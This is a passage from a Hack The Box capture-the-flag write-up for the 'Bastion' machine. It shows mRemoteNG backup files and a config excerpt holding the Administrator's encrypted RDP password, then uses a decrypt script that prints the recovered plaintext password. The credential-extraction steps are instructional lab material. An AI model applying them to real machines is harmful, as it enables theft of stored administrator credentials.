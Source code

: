 ```shell
22-02-2019  15:03             6.319 confCons.xml.20190222-1403100488.backup                                
22-02-2019  15:03             6.318 confCons.xml.20190222-1403220026.backup                                
22-02-2019  15:03             6.315 confCons.xml.20190222-1403261268.backup                                
22-02-2019  15:03             6.316 confCons.xml.20190222-1403272831.backup                                
22-02-2019  15:03             6.315 confCons.xml.20190222-1403433299.backup                                
22-02-2019  15:03             6.316 confCons.xml.20190222-1403486580.backup                                
[...]
```

**`confCons.xml`:**
```xml
<?xml version="1.0" encoding="utf-8"?>                                                                     
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL5tKO886au0ofFPW0oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/{Redacted}==" Hostname="127.0.0.1" Protocol="RDP"[...]
```

In here, we can see that user `Administrator`'s RDP (Remote Desktop Protocol) connection to `127.0.0.1`'s password is encrypted via AES GCM mode.

**Armed with above information, we can decrypt `Administrator`'s password!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Bastion)-[2023.08.04|16:16:02(HKT)]
└> python3 mremoteng_decrypt.py --help
usage: mremoteng_decrypt.py [-h] [-f FILE | -rf REALFILE | -s STRING] [-p PASSWORD] [-L LEGACY]

Decrypt mRemoteNG passwords.

options:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Name of file containing mRemoteNG password
  -rf REALFILE, --realFile REALFILE
                        Name of the Real mRemoteNG connections file containing the passwords
  -s STRING, --string STRING
                        base64 string of mRemoteNG password
  -p PASSWORD, --password PASSWORD
                        Custom password
  -L LEGACY, --legacy LEGACY
                        version <= 1.74
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Bastion)-[2023.08.04|16:16:36(HKT)]
└> python3 mremoteng_decrypt.py -s 'aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/{Redacted}=='
Password: thXLHM96BeKL0ER2
```
